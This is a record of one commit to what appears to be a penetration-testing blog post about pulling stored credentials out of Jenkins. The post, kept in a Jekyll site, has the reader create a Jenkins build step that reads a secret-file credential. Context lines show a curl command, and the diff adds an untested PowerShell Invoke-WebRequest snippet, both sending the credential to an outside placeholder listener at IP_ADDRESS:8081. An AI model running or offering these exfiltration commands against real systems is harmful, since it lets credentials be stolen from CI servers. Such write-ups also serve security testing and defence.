

Before and after one commit to ricardojoserf/ricardojoserf.github.io, a Jekyll site: the page built from _posts/2024-3-12-jenkinscredentials.md, in a window 1280 px wide and 900 px high, scrolled down 1632 px. Shown: the whole window, without its empty margins (118-1161 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2024-3-12-jenkinscredentials.md

````diff
--- a/_posts/2024-3-12-jenkinscredentials.md
+++ b/_posts/2024-3-12-jenkinscredentials.md
@@ -25,6 +25,7 @@ Create a task and include the credential as a variable named "TEST" checking "Us
 
 ![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/jenkinscredentials/Screenshot_1.png)
 
+<br>
 
 ### Step 2: Execute command line (shell) in Build Steps
 
@@ -44,8 +45,15 @@ whoami; ip a; TEST2=$(cat "$TEST"); curl http://IP_ADDRESS:8081/ --data-binary '
 
 The "whoami; ip a;" part is not necessary but you can use something like this to check the task is executed correctly even if step 3 fails. And you can use the port you prefer and not 8081.
 
-In this example the Jenkins master node is a Linux system, but I guess something similar can be used in Windows using Powershell :).
+In this example the Jenkins master node is a Linux system, but I guess something similar can be used in Windows using Powershell (please notice I did not test these next lines :) ):
 
+```
+$TEST2 = Get-Content $TEST -Raw
+$postParams = @{credential=$TEST2;}
+Invoke-WebRequest -Uri http://IP_ADDRESS:8081 -Method POST -Body $postParams
+```
+
+<br>
 
 ### Step 3: Set up a listener and (hopefully) receive the credential in cleartext
 
````
